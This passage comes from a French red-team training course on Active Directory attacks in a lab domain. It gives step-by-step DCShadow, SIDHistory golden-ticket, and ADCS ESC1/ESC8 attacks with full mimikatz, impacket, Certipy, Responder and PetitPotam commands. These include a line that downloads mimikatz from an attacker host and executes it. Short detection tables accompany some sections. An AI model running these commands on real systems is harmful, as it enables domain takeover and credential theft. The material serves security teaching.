| `net group "Domain Admins" /domain` | Vérifie l'appartenance au groupe |

#### Scénarios d'attaque DCShadow

```powershell
# 1. Ajouter un utilisateur à Domain Admins via DCShadow (une seule ligne)
#    /object:CN=alice,... : cible = utilisateur alice
#    /attribute:memberOf : attribut d'appartenance aux groupes
#    /value:CN=Domain Admins,... : nouvelle valeur = Domain Admins
#    /push : pousse immédiatement la modification
mimikatz.exe "lsadump::dcshadow /object:CN=alice,CN=Users,DC=redteam,DC=lab /attribute:memberOf /value:CN=Domain Admins,CN=Users,DC=redteam,DC=lab" "lsadump::dcshadow /push" exit

# 2. Modifier le mot de passe d'un utilisateur via DCShadow
#    /attribute:unicodePwd : attribut contenant le hash du mot de passe (encodé Unicode)
#    /value:'NouveauMotDePasse123!' : nouveau mot de passe en clair
#    DCShadow permet de changer un mot de passe sans avoir ForceChangePassword ni admin
mimikatz.exe "lsadump::dcshadow /object:CN=bob,CN=Users,DC=redteam,DC=lab /attribute:unicodePwd /value:'NouveauMotDePasse123!'" "lsadump::dcshadow /push" exit

# 3. Ajouter un SPN (Service Principal Name) pour préparer un Kerberoasting
#    /attribute:servicePrincipalName : attribut SPN
#    /add:HTTP/webserver.redteam.lab : ajoute un SPN HTTP à alice
#    Permet de Kerberoaster le compte alice (cibler son hash via un TGS pour ce SPN)
mimikatz.exe "lsadump::dcshadow /object:CN=alice,CN=Users,DC=redteam,DC=lab /attribute:servicePrincipalName /add:HTTP/webserver.redteam.lab" "lsadump::dcshadow /push" exit

# 4. Supprimer l'attribut adminCount (cacher la protection SDProp)
#    /attribute:adminCount : attribut de protection SDProp
#    /value:0 : désactive la protection (adminCount = 0)
#    L'objet ne sera plus protégé par SDProp, les modifications de sa DACL persisteront
mimikatz.exe "lsadump::dcshadow /object:CN=alice,CN=Users,DC=redteam,DC=lab /attribute:adminCount /value:0" "lsadump::dcshadow /push" exit
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `lsadump::dcshadow /object /attribute /value` | Préparation d'une modification AD par DCShadow |
| `/attribute:memberOf` | Modifie l'appartenance aux groupes |
| `/attribute:unicodePwd` | Modifie le mot de passe (hash NTLM) |
| `/attribute:servicePrincipalName /add:` | Ajoute un SPN (pour Kerberoasting) |
| `/attribute:adminCount /value:0` | Supprime la protection SDProp (adminCount = 0) |
| `"lsadump::dcshadow /push"` | Pousse toutes les modifications préparées vers le DC via réplication |

### 7.3 TP guidé : DCShadow pour ajouter un utilisateur à Domain Admins

#### Objectif
Depuis une machine jointe au domaine avec des droits admin local, utiliser DCShadow pour ajouter `alice` au groupe Domain Admins.

#### Étape 1 : Vérification de l'environnement

```powershell
# Sur WS01, vérifier qu'on est admin local (prérequis DCShadow)
# whoami : affiche l'utilisateur courant
# whoami /groups | findstr "Administrateur" : filtre les groupes pour vérifier la présence du groupe Administrateurs
whoami
whoami /groups | findstr "Administrateur"

# Vérifier qu'on a les droits de réplication
# (Default: tout admin local sur une machine jointe peut hériter des droits via son compte machine)
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `whoami` | Affiche le nom de l'utilisateur Windows courant |
| `whoami /groups` | Liste tous les groupes dont l'utilisateur fait partie |
| `findstr "Administrateur"` | Filtre la sortie pour chercher "Administrateur" (équivalent de grep Windows) |

#### Étape 2 : Préparation de l'attaque

```powershell
# Télécharger Mimikatz via un serveur HTTP (fileless)
# IEX (New-Object Net.WebClient).DownloadString('http://kali:8080/mimikatz.exe')
#   IEX : Invoke-Expression — exécute le contenu téléchargé
#   DownloadString : télécharge via HTTP (ici un .exe depuis Kali:8080)
# Note : cette technique est détectable par AMSI/Defender
IEX (New-Object Net.WebClient).DownloadString('http://kali:8080/mimikatz.exe')

# Ou exécuter directement depuis un partage réseau
# \\kali\tools\mimikatz.exe : exécution via SMB depuis la machine Kali
# (si un partage est configuré sur Kali)
\\kali\tools\mimikatz.exe
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `IEX (New-Object Net.WebClient).DownloadString('http://kali:8080/mimikatz.exe')` | Télécharge et exécute Mimikatz en mémoire (fileless) |
| `\\kali\tools\mimikatz.exe` | Exécution directe depuis un partage SMB distant |

#### Étape 3 : Exécution DCShadow

```powershell
# Exécution DCShadow complète en une ligne
# "privilege::debug" : active SeDebugPrivilege (nécessaire pour DCShadow)
# "lsadump::dcshadow /object:CN=alice,... /attribute:memberOf /value:CN=Domain Admins,..." :
#   prépare la modification : ajouter alice à Domain Admins
# "lsadump::dcshadow /push" : enregistre la machine comme DC temporaire et pousse la modif
mimikatz.exe "privilege::debug" "lsadump::dcshadow /object:CN=alice,CN=Users,DC=redteam,DC=lab /attribute:memberOf /value:CN=Domain Admins,CN=Users,DC=redteam,DC=lab" "lsadump::dcshadow /push" exit
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `"privilege::debug"` | Active SeDebugPrivilege nécessaire pour l'attaque DCShadow |
| `"lsadump::dcshadow /object:... /attribute:memberOf /value:..."` | Prépare la modification de l'attribut memberOf |
| `"lsadump::dcshadow /push"` | Enregistre la machine comme DC et pousse la modification |

#### Étape 4 : Vérification

```powershell
# Vérifier l'appartenance au groupe Domain Admins
# net group "Domain Admins" /domain : liste les membres de Domain Admins
# net user alice /domain : affiche les propriétés d'alice (dont ses groupes)
net group "Domain Admins" /domain
net user alice /domain

# Vérifier l'accès au partage C$ du DC
# dir \\dc01.redteam.lab\c$ : liste le répertoire C$ du DC
# Si alice est maintenant Domain Admin, l'accès doit être accordé
dir \\dc01.redteam.lab\c$
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `net group "Domain Admins" /domain` | Liste les membres du groupe Domain Admins dans le domaine |
| `net user alice /domain` | Affiche les propriétés du compte alice (groupes, statut, etc.) |
| `dir \\dc01.redteam.lab\c$` | Accès au partage administratif du DC pour vérifier les droits |

### 7.4 Détection DCShadow

| Indicateur | Description |
|------------|-------------|
| **Event ID 4742** | Compte d'ordinateur modifié (nouveau DC) |
| **Event ID 4662** | Opération sur un attribut AD |
| **Journal des services de réplication** | |
| **Nouveau DC inconnu** | Machine non autorisée enregistrée comme DC |
| **Traffic DRSUAPI** | Requête de réplication inhabituelle |
| **Lignes de base** | Comparer la liste des DCs |

#### Contre-mesures

- **Surveiller les Event ID 4662** (accès aux attributs AD)
- **Restreindre les droits de réplication** aux DCs légitimes
- **Auditer régulièrement la liste des DCs** (`nltest /dclist:redteam.lab`)
- **LAPS** pour les comptes locaux

---

## 8. Trust Attacks (T1484)

### 8.1 Comprendre les trusts AD

Les **trusts** sont des relations d'authentification entre domaines/forêts. Ils permettent aux utilisateurs d'un domaine d'accéder aux ressources d'un autre domaine.

#### Types de trusts

```
                    Intra-domain (forêt unique)
┌─────────────────────────────────────────────────────────────┐
│  redteam.lab                                              │
│  ┌────────────┐    ┌────────────┐                          │
│  │ europe     │ ←──│── americas │  Trust transitif        │
│  │ .redteam   │    │ .redteam   │  bidirectionnel          │
│  └────────────┘    └────────────┘                          │
└─────────────────────────────────────────────────────────────┘

                    Inter-forest
┌──────────────────────┐    ┌──────────────────────┐
│  redteam.lab        │    │  corp.contoso.com    │
│                    │    │                      │
│  Domain: Users     │ ←──│── Trust sélectif     │
│  à privilégier     │    │   unidirectionnel    │
└──────────────────────┘    └──────────────────────┘
```

| Type de trust | Direction | Transitivité | SIDHistory |
|--------------|-----------|-------------|------------|
| Parent-Enfant | Bidirectionnel | Transitif | Non nécessaire |
| Forêt (Tree) | Bidirectionnel | Transitif | Possible |
| Externe | Unidirectionnel | Non-transitif | Oui (injection) |
| Forêt (Forest) | Unidirectionnel | Non-transitif | Oui (injection) |

### 8.2 SIDHistory Injection

Le **SIDHistory** est un attribut qui permet à un utilisateur d'un domaine d'avoir un ancien SID, lui donnant les droits associés à cet ancien SID. L'attaque consiste à **injecter un SID élevé** (ex: Enterprise Admins) dans le SIDHistory d'un utilisateur d'une forêt appauvrie.

#### Principe

```
redteam.lab (source)          corp.contoso.com (cible)
┌────────────────┐            ┌──────────────────────┐
│  Utilisateur    │            │  Ressource protégée   │
│  alice          │            │    ( \\fs01\secret )  │
│  SID: S-1-5-21 │            │                      │
│  -...-1111     │            │  ACL: S-1-5-21-...-519│
│                 │            │  (Enterprise Admins)  │
│  SIDHistory:    │            │                      │
│  S-1-5-21-...  │────Trust──→│                      │
│  -519 (EA)     │            │                      │
└────────────────┘            └──────────────────────┘
```

### 8.3 Extraction des hashes inter-forest

```bash
# Sur le DC de la forêt source (redteam.lab) : DCSync pour récupérer le hash KRBTGT
# impacket-secretsdump : extrait tous les hashs du domaine via réplication AD
# Le hash KRBTGT servira à signer le futur Golden Ticket avec SIDHistory
impacket-secretsdump "redteam.lab"/Administrator:"Passw0rd!"@dc01.redteam.lab

# Noter le hash KRBTGT de la forêt source (ligne contenant krbtgt dans la sortie)
# Celui-ci servira à forger un ticket avec SIDHistory

# Vérifier les trusts inter-forêts
# impacket-getTGT : obtient un TGT pour l'utilisateur (vérifie l'authentification Kerberos)
impacket-getTGT "redteam.lab"/Administrator:"Passw0rd!"

# impacket-trustenum : énumère les relations de trust depuis le domaine
#   Interroge le DC pour lister les trusts (domaines approuvés et approuvants)
impacket-trustenum "redteam.lab"/Administrator:"Passw0rd!"
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `impacket-secretsdump` | DCSync pour extraire le hash KRBTGT de la forêt source |
| `impacket-getTGT` | Obtient un TGT pour vérifier l'authentification Kerberos |
| `impacket-trustenum` | Énumère les relations de trust AD du domaine |

```powershell
# Avec PowerShell — énumération des trusts
# Get-ADTrust -Filter * : applet Active Directory module — liste TOUS les trusts du domaine
#   Retourne : nom du trust, direction, transitivité, type, SID filtering, etc.
Get-ADTrust -Filter *

# Get-ADObject -Filter {objectClass -eq "trustedDomain"} : méthode alternative pour lister les trusts
#   objectClass -eq "trustedDomain" : filtre les objets AD de type trustedDomain
#   -Properties * : retourne toutes les propriétés (y compris les attributs étendus)
Get-ADObject -Filter {objectClass -eq "trustedDomain"} -Properties *
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Get-ADTrust -Filter *` | Applet module ActiveDirectory — liste toutes les relations de trust |
| `-Filter *` | Aucun filtre (tous les trusts) |
| `Get-ADObject -Filter {objectClass -eq "trustedDomain"}` | Interroge les objets AD de classe trustedDomain (représentation bas niveau des trusts) |
| `-Properties *` | Retourne l'ensemble des attributs de l'objet |

### 8.4 Mimikatz kerberos::golden /sid /sids

```powershell
# Forger un TGT avec SIDHistory pour traverser un trust inter-forêt
# kerberos::golden : module de forgage de TGT
#   /domain:redteam.lab : domaine source
#   /sid:S-1-5-21-111111111-111111111-111111111 : SID de la forêt source
#   /user:Administrator : utilisateur usurpé
#   /krbtgt:aaaaaabbbbbbccccccddddddeeeeeeee : hash KRBTGT de la forêt SOURCE
#   /sids:S-1-5-21-222222222-222222222-222222222-519 : SID supplémentaire (SIDHistory)
#     SID du groupe Enterprise Admins (RID 519) de la forêt CIBlE (corp.contoso.com)
#     Ce SID permet au ticket d'être reconnu comme Enterprise Admin dans la forêt cible
#   /ptt : injection immédiate
# Résultat : le TGT contient un SIDHistory qui sera pris en compte par le trust
mimikatz.exe "kerberos::golden /domain:redteam.lab /sid:S-1-5-21-111111111-111111111-111111111 /user:Administrator /krbtgt:aaaaaabbbbbbccccccddddddeeeeeeee /sids:S-1-5-21-222222222-222222222-222222222-519 /ptt" exit

# Paramètre clé : /sids
# Format : SID de la forêt cible - RID du groupe
# Ici S-1-5-21-2222...-519 = Enterprise Admins de corp.contoso.com
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `/sid:S-1-5-21-111...` | SID du domaine SOURCE (redteam.lab) |
| `/sids:S-1-5-21-222...-519` | SID supplémentaire injecté dans le ticket = SID du groupe Enterprise Admins de la forêt CIBlE |
| `/krbtgt:<hash>` | Hash KRBTGT de la forêt SOURCE (nécessaire pour signer le TGT) |
| `-519` | RID du groupe Enterprise Admins (le groupe le plus élevé dans une forêt) |

#### Explication des SIDs

| SID | Description |
|-----|-------------|
| `/sid:S-1-5-21-111...` | SID du domaine source (redteam.lab) |
| `/sids:S-1-5-21-222...-519` | SID du groupe Enterprise Admins du domaine cible (corp.contoso.com) |
| `-512` | Domain Admins |
| `-519` | Enterprise Admins |
| `-518` | Schema Admins |

#### Récupération du SID de la forêt cible

```bash
# Depuis un compte du domaine cible : récupérer le SID
# wmic useraccount get name,sid : WMI — liste les utilisateurs et leur SID
#   Le SID se termine par -500 (RID de l'administrateur intégré)
#   Le SID du domaine = SID complet SANS le -500 final
# Exemple : S-1-5-21-222222222-222222222-222222222-500
#   SID domaine = S-1-5-21-222222222-222222222-222222222
wmic useraccount get name,sid
# S-1-5-21-222222222-222222222-222222222-500

# Le SID du domaine est S-1-5-21-222222222-222222222-222222222
# (sans le -500)

# Depuis un DC du domaine cible : méthode PowerShell alternative
# Get-ADDomain corp.contoso.com : applet module ActiveDirectory
# Select-Object DomainSID : extrait la propriété DomainSID
Get-ADDomain corp.contoso.com | Select-Object DomainSID
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `wmic useraccount get name,sid` | WMI — liste les comptes utilisateurs avec leur SID complet |
| `Get-ADDomain <domaine> \| Select-Object DomainSID` | PowerShell — récupère le SID d'un domaine via le module ActiveDirectory |

### 8.5 TP guidé : Trust Crossing avec SIDHistory

#### Objectif
Depuis la forêt `redteam.lab`, traverser le trust vers `corp.contoso.com` en injectant SIDHistory Enterprise Admins.

#### Étape 1 : Énumération du trust

```bash
# Depuis Kali : énumération des trusts avec Impacket
# impacket-trustenum : liste les relations de trust du domaine
# "redteam.lab"/Administrator:"Passw0rd!"@dc01.redteam.lab : credentials admin
# -dc-ip 192.168.56.10 : IP du DC (évite résolution DNS)
# Sortie : liste des trusts (nom du domaine approuvé, type, direction, etc.)
impacket-trustenum "redteam.lab"/Administrator:"Passw0rd!"@dc01.redteam.lab -dc-ip 192.168.56.10
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `impacket-trustenum` | Outil Impacket pour énumérer les relations de trust Active Directory |
| `-dc-ip <IP>` | Adresse IP du DC pour l'interrogation LDAP |

```powershell
# Depuis Windows : énumération des trusts avec nltest (outil réseau natif Windows)
# nltest /domain_trusts : interroge le LSAP sur les relations de trust
# /all_trusts : liste tous les trusts (y compris les trusts de forêt)
nltest /domain_trusts /all_trusts
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `nltest` | Utilitaire Windows pour la gestion des relations de trust et la communication avec les DCs |
| `/domain_trusts` | Liste les domaines approuvés par le domaine courant |
| `/all_trusts` | Inclut tous les types de trusts (parents, enfants, forêts, externes) |

#### Étape 2 : Récupérer les SIDs

```bash
# SID de Redteam (forêt source) via Impacket lookupsid
# impacket-lookupsid : énumère les SIDs du domaine via SAMR (SAM Remote Protocol)
# "redteam.lab"/Administrator:"Passw0rd!"@dc01.redteam.lab : credentials
# grep "Domain SID" : filtre la ligne contenant le SID du domaine
# Résultat : S-1-5-21-111111111-111111111-111111111
impacket-lookupsid "redteam.lab"/Administrator:"Passw0rd!"@dc01.redteam.lab | grep "Domain SID"
# S-1-5-21-111111111-111111111-111111111
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `impacket-lookupsid` | Outil Impacket — énumère les SIDs du domaine via le protocole SAMR (port 445) |
| `grep "Domain SID"` | Filtre la sortie pour extraire uniquement la ligne contenant le SID du domaine |

#### Étape 3 : Forger un Golden Ticket avec SIDHistory

```bash
# Hash KRBTGT de redteam.lab (via DCSync préalable)
HASH="aaaaaabbbbbbccccccddddddeeeeeeee"      # Hash NTLM du KRBTGT de la forêt source
SID_REDTEAM="S-1-5-21-111111111-111111111-111111111"  # SID du domaine source
SID_CONTOSO="S-1-5-21-222222222-222222222-222222222"  # SID du domaine cible (contoso)
EA_RID="519"                                  # RID du groupe Enterprise Admins

# Via Impacket ticketer.py — forger un Golden Ticket avec SIDHistory (ExtraSID)
# ticketer.py -nthash $HASH : hash KRBTGT de la forêt source
# -domain-sid $SID_REDTEAM : SID du domaine source
# -domain redteam.lab : nom de domaine source
# -user Administrator : utilisateur usurpé
# -extra-sid "${SID_CONTOSO}-${EA_RID}" : SID supplémentaire = SID de contoso + -519 (Enterprise Admins)
#   C'est ce paramètre qui crée le SIDHistory dans le ticket
# -groups 512,513,518,519 : groupes source (Domain Admins, etc.)
ticketer.py -nthash $HASH \
    -domain-sid $SID_REDTEAM \
    -domain redteam.lab \
    -user Administrator \
    -extra-sid "${SID_CONTOSO}-${EA_RID}" \
    -groups 512,513,518,519

# Export du ticket et test d'accès à la forêt cible
export KRB5CCNAME=Administrator.ccache

# Tester l'accès à la forêt cible (corp.contoso.com)
# crackmapexec smb dc01.corp.contoso.com -k --use-kcache : vérifie l'accès SMB
#   -k : authentification Kerberos
#   --use-kcache : utilise le cache Kerberos (KRB5CCNAME)
crackmapexec smb dc01.corp.contoso.com -k --use-kcache
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `HASH="..."` | Hash NTLM du KRBTGT de la forêt source (récupéré via DCSync) |
| `SID_REDTEAM="..."` | SID du domaine source (sans RID) |
| `SID_CONTOSO="..."` | SID du domaine cible (découvert via énumération) |
| `EA_RID="519"` | RID 519 = Enterprise Admins (groupe le plus privilégié d'une forêt) |
| `-extra-sid "${SID_CONTOSO}-${EA_RID}"` | Injecte le SID du groupe Enterprise Admins de la forêt cible dans le ticket (attaque SIDHistory) |
| `crackmapexec smb ... -k --use-kcache` | Vérifie l'accès au DC de la forêt cible avec le ticket forgé |

#### Étape 4 : Vérification

```bash
# Si l'accès fonctionne, on peut accéder aux ressources de la forêt cible
# smbclient.py -k : client SMB avec authentification Kerberos
#   dc01.corp.contoso.com : DC de la forêt cible
#   -no-pass : pas de mot de passe (utilisation du ticket avec SIDHistory)
smbclient.py -k dc01.corp.contoso.com -no-pass

# ls \\dc01.corp.contoso.com\c$ : liste le contenu du partage C$ du DC cible
# Confirme l'accès avec les droits Enterprise Admin
ls \\dc01.corp.contoso.com\c$
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `smbclient.py -k -no-pass` | Client SMB Impacket avec authentification Kerberos (utilise le ticket forgé) |
| `ls \\dc01.corp.contoso.com\c$` | Liste le contenu du partage C$ du DC de la forêt cible |

### 8.6 Détection des Trust Attacks

| Indicateur | Détail |
|------------|--------|
| **Event ID 4768** | TGT avec SID supplémentaire (SIDHistory) |
| **Event ID 4624** | Logon avec un compte d'une forêt approuvée |
| **SIDHistory anormal** | SID de groupe élevé (519, 512) |
| **Trust Key usage** | Utilisation suspecte de la clé de trust |

---

## 9. Active Directory Certificate Services (ADCS) Abuse

### 9.1 Vue d'ensemble

ADCS est le service de certificats PKI de Microsoft. Dans de nombreuses entreprises, ADCS est mal configuré et offre plusieurs vecteurs d'attaque :

```
┌─────────────────────────────────────────────────────────────┐
│                  ADCS Attack Surface                        │
│                                                             │
│  ESC1 : Template vulnérable + enrol with alt SID           │
│  ESC2 : Template vulnérable + enrol with alt SID           │
│  ESC3 : Mauvaises permissions sur Manager CA               │
│  ESC4 : Accès ACL sur template (Write)                     │
│  ESC5 : Accès ACL sur CA (WriteDACL)                      │
│  ESC6 : EDITF_ATTRIBUTESUBJECTALTNAME2 activé             │
│  ESC7 : Accès ManageCA + ManageCertificate                 │
│  ESC8 : NTLM Relay vers ADCS Web Enrollment                │
│  ESC9 : NoSecurityExtension + enrol with alt SID          │
│  ESC10 : WeakCertificateThumbprint + enrol with alt SID   │
│  ESC11 : Relative path sur ICertRequest                    │
│  ESC12 : Client Authentication via EKU Mapping             │
│  ESC13 : Template avec politique d'approbation             │
└─────────────────────────────────────────────────────────────┘
```

### 9.2 ESC1 — Template de certificat mal configuré

#### Conditions pour ESC1

1. Le template de certificat permet l'**enrôlement** par des utilisateurs de bas niveau
2. **`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`** activé (le demandeur peut spécifier le sujet)
3. **`ExtendedKeyUsage (EKU)`** inclut **`Client Authentication`** ou **`Any Purpose`**
4. Le template n'a pas de **`Issuance Requirements`** restrictif

#### Énumération avec Certify

```powershell
# Certify — outil C# pour énumérer les vulnérabilités ADCS
# Certify.exe find /vulnerable : énumère tous les templates de certificats
#   /vulnerable : filtre uniquement les templates vulnérables (ESC1, ESC2, etc.)
#   Analyse les permissions, les flags d'enrôlement, les EKU et les conditions d'émission
Certify.exe find /vulnerable

# Sortie typique ESC1 :
#
# [*] Certificate Template: VulnTemplate
#     CA: dc01.redteam.lab\redteam-DC01-CA          # Autorité de certification
#     Enabled: True                                  # Template activé
#     Client Authentication: True                    # Peut être utilisé pour s'authentifier
#     Enrollment Flag: INCLUDE_SYMMETRIC, PUBLISH_TO_DS, AUTO_ENROLLMENT
#     Enrollee Supplies Subject: True                # 🔴 Flag critique : le demandeur spécifie le sujet
#     Permissions:
#       Enrollment Rights: Domain Users              # 🔴 Tout le domaine peut demander ce certificat
#       ...
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Certify.exe find /vulnerable` | Outil C# (GhostPack) — énumère les templates ADCS vulnérables |
| `/vulnerable` | Filtre pour ne montrer que les templates avec des configurations exploitables (ESC1-ESC8) |
| `[CA]` | Autorité de Certification qui délivre les certificats de ce template |
| `Enrollee Supplies Subject: True` | Flag critique : le demandeur peut spécifier l'identité (UPN/SAN) du certificat |
| `Enrollment Rights: Domain Users` | Tout utilisateur du domaine peut demander ce certificat |

#### Demande de certificat avec Certify

```powershell
# Demander un certificat pour un autre utilisateur (Domain Admin) avec Certify
# Certify.exe request : demande un certificat auprès de la CA
#   /ca:dc01.redteam.lab\redteam-DC01-CA : autorité de certification (serveur\nom_CA)
#   /template:VulnTemplate : nom du template vulnérable
#   /altname:redteam.lab\Administrator : nom alternatif (SAN = Subject Alternative Name)
#     Le certificat sera émis pour Administrator même si c'est alice qui le demande !
#     C'est le cœur de l'attaque ESC1 : altname permet d'usurper n'importe quel utilisateur
Certify.exe request /ca:dc01.redteam.lab\redteam-DC01-CA \
    /template:VulnTemplate \
    /altname:redteam.lab\Administrator

# Le certificat est signé par la CA et peut être utilisé pour l'authentification
# Certify affiche le certificat + la clé privée en base64

# Exporter pour utilisation
# [Certify sauvegarde certificate.pfx par défaut — fichier contenant certificat + clé privée]
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Certify.exe request` | Demande un certificat à la CA |
| `/ca:dc01.redteam.lab\redteam-DC01-CA` | Nom de la CA : `serveur\nom_court_CA` |
| `/template:VulnTemplate` | Template de certificat à utiliser |
| `/altname:redteam.lab\Administrator` | Subject Alternative Name — l'identité usurpée (Administrator) |
| `.pfx` | Format PKCS#12 : contient le certificat ET la clé privée |

#### Demande avec Certipy (depuis Kali)

```bash
# Certipy — outil Python pour ADCS abuse (alternative à Certify depuis Linux)
# certipy find : énumère les templates, CA, et permissions
#   -u alice@redteam.lab : utilisateur (format UPN)
#   -p 'Passw0rd!' : mot de passe
#   -dc-ip 192.168.56.10 : IP du DC
#   -stdout : affiche les résultats dans le terminal (au lieu d'un fichier)
certipy find -u alice@redteam.lab -p 'Passw0rd!' -dc-ip 192.168.56.10 -stdout

# Demande d'un certificat ESC1 (avec usurpation d'identité)
# certipy req : demande un certificat
#   -u alice@redteam.lab : demandeur du certificat (alice)
#   -p 'Passw0rd!' : mot de passe d'alice
#   -ca redteam-DC01-CA : nom de l'autorité de certification
#   -template VulnTemplate : template vulnérable (ESC1)
#   -target dc01.redteam.lab : CA cible
#   -upn 'administrator@redteam.lab' : 🔴 UPN cible (Administrator) — le certificat sera émis pour lui
# Résultat : fichier administrator.pfx (certificat + clé privée pour Administrator)
certipy req -u alice@redteam.lab -p 'Passw0rd!' \
    -ca redteam-DC01-CA -template VulnTemplate \
    -target dc01.redteam.lab \
    -upn 'administrator@redteam.lab'

# Utilisation du certificat pour obtenir un TGT Kerberos (PKINIT)
# certipy auth -pfx administrator.pfx : s'authentifie avec le certificat
#   -pfx administrator.pfx : fichier certificat + clé privée
#   -dc-ip 192.168.56.10 : DC pour l'authentification PKINIT
# Résultat : TGT obtenu pour Administrator
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.10

# Obtention du hash NT de l'administrateur (à partir du TGT)
# certipy auth -pfx administrator.pfx -domain redteam.lab
#   -domain redteam.lab : domaine pour l'extraction du hash
#   -dc-ip 192.168.56.10 : DC cible
# Résultat : hash NTLM de Administrator (peut être utilisé pour DCSync, PTH, etc.)
certipy auth -pfx administrator.pfx -domain redteam.lab -dc-ip 192.168.56.10
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `certipy find` | Énumère les templates ADCS, CA, et les permissions associées |
| `-stdout` | Affiche les résultats dans la console (plutôt que dans un fichier) |
| `certipy req` | Demande un certificat à la CA |
| `-ca redteam-DC01-CA` | Nom de l'autorité de certification cible |
| `-template VulnTemplate` | Template de certificat à utiliser pour la demande |
| `-target dc01.redteam.lab` | Serveur hébergeant la CA |
| `-upn 'administrator@redteam.lab'` | 🔴 UPN à inscrire dans le certificat (usurpation) |
| `certipy auth -pfx <fichier>.pfx` | Authentification PKINIT avec le certificat pour obtenir un TGT/hash |
| `-pfx` | Fichier PKCS#12 contenant le certificat et la clé privée |

#### Mécanisme d'authentification PKINIT

```
┌────────────┐          ┌───────────────┐          ┌────────────┐
│  Attaquant  │          │      KDC      │          │    CA       │
│             │ 1. Demande│               │          │            │
│ alice@lab  │─────TGT──→│ Vérifie dans │          │            │
│             │          │   certificat  │          │            │
│             │ 2. Reçoit│   le SID de   │          │            │
│             │────TGT──→│ Administrator │          │            │
│             │          │               │          │            │
│             │ 3. TGS   │               │          │            │
│             │───req────→│ Grant accès  │          │            │
│             │←──TGS────│              │          │            │
└────────────┘          └───────────────┘          └────────────┘
```

### 9.3 ESC8 — NTLM Relay vers ADCS Web Enrollment

#### Principe

ADCS expose un service web (CES/Web Enrollment) sur `http://dc01.redteam.lab/certsrv/`. L'authentification NTLM est acceptée. On peut **relayer** une authentification NTLM vers ce endpoint pour obtenir un certificat signé.

```
┌──────────┐          ┌────────────┐          ┌────────────┐
│ Victime   │          │  Attaquant  │          │   ADCS      │
│ (WS01)   │          │  Kali      │          │   (DC01)    │
│           │          │            │          │            │
│   SMB    │─────────→│  Responder │          │            │
│   Auth    │          │  (relais)  │─────────→│ POST       │
│           │          │            │          │ /certsrv/  │
│           │          │            │          │            │
│           │          │            │←─────────│ Certificat │
│           │          │            │          │ (PFX)      │
└──────────┘          └────────────┘          └────────────┘
```

#### Étapes de l'attaque

```bash
# Étape 1 : Lancer ntlmrelayx pour relayer l'authentification NTLM vers ADCS
# impacket-ntlmrelayx : outil de relais NTLM
#   -t http://dc01.redteam.lab/certsrv/certfnsh.asp : 🔴 cible du relais (endpoint ADCS)
#     certfnsh.asp = point de terminaison de soumission de certificat
#   -smb2support : supporte SMB2 (pour les connexions SMB modernes)
#   --adcs : mode ADCS — demande automatiquement un certificat après relais
#   --template VulnTemplate : template à utiliser pour le certificat demandé
# Résultat : écoute les connexions NTLM entrantes et les relaie vers ADCS
impacket-ntlmrelayx -t http://dc01.redteam.lab/certsrv/certfnsh.asp \
    -smb2support \
    --adcs \
    --template VulnTemplate

# Étape 2 : Déclencher une authentification (Responder en mode SMB)
# Depuis Kali, simuler un partage SMB piégé qui capture les authentifications
# sudo python3 Responder.py -I eth0 : répond aux requêtes LLMNR/NBT-NS
#   -I eth0 : interface réseau
#   -w : activer le poisonnement WPAD
#   -r : activer le poisonnement pour les requêtes HTTP
#   -f : activer le fingerprinting
sudo python3 Responder.py -I eth0 -wrf

# OU : Utiliser PetitPotam pour forcer une authentification du DC vers Kali
# python3 PetitPotam.py : force un DC à s'authentifier via MS-EFSRPC (Encrypting File System Remote Protocol)
#   -d redteam.lab -u alice -p Passw0rd! : credentials pour l'appel RPC
#   kali@80 : <adresse_attaquant>@<port> (écouteur du relais)
#   dc01.redteam.lab : DC cible à forcer
python3 PetitPotam.py -d redteam.lab -u alice -p Passw0rd! kali@80 dc01.redteam.lab

# Étape 3 : NTLM relay capte l'authentification et la relaie vers ADCS
# → Certificat obtenu pour le compte de la machine DC01$ (le compte du DC)

# Étape 4 : Utilisation du certificat pour obtenir le hash du compte machine
# certipy auth -pfx DC01.pfx : authentification PKINIT avec le certificat du DC
#   -dc-ip 192.168.56.10 : DC pour l'authentification
# → Hash du compte DC01$ obtenu (hash NTLM de la machine)
# → Avec le hash DC01$, on peut DCSync (si le compte a les droits de réplication)
certipy auth -pfx DC01.pfx -dc-ip 192.168.56.10
# → Hash du compte DC01$ obtenu
# → Avec le hash DC01$, on peut DCSync (si Replication Rights)
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `impacket-ntlmrelayx -t <URL>` | Outil de relais NTLM — relaie les authentifications vers une cible |
| `-t http://.../certfnsh.asp` | 🔴 Cible : endpoint ADCS de soumission de certificat |
| `-smb2support` | Active le support SMB2 dans le relais |
| `--adcs` | Mode ADCS — demande automatiquement un certificat après relais réussi |
| `--template VulnTemplate` | Template de certificat à utiliser pour la demande |
| `Responder.py -I eth0 -wrf` | Outil de poisonnement LLMNR/NBT-NS pour capturer les authentifications réseau |
| `PetitPotam.py` | Exploit MS-EFSRPC — force un DC à s'authentifier auprès de l'attaquant |
| `certipy auth -pfx DC01.pfx` | Authentification PKINIT avec le certificat volé |

